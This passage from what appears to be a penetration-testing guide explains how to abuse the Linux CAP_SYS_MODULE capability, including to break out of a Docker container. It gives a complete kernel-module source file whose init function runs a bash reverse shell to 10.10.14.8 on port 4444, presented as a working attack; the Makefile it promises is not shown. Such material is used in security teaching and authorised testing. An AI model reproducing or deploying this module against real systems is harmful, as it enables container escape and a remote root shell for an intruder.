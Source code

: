 **Example 2 with binary**

In the following example the binary **`kmod`** has this capability.

```bash
getcap -r / 2>/dev/null
/bin/kmod = cap_sys_module+ep
```

Which means that it's possible to use the command **`insmod`** to insert a kernel module. Follow the example below to get a **reverse shell** abusing this privilege.

**Example with environment (Docker breakout)**

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```

Inside the previous output you can see that the **SYS\_MODULE** capability is enabled.

**Create** the **kernel module** that is going to execute a reverse shell and the **Makefile** to **compile** it:

{% code title="reverse-shell.c" %}
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
{% endcode %}
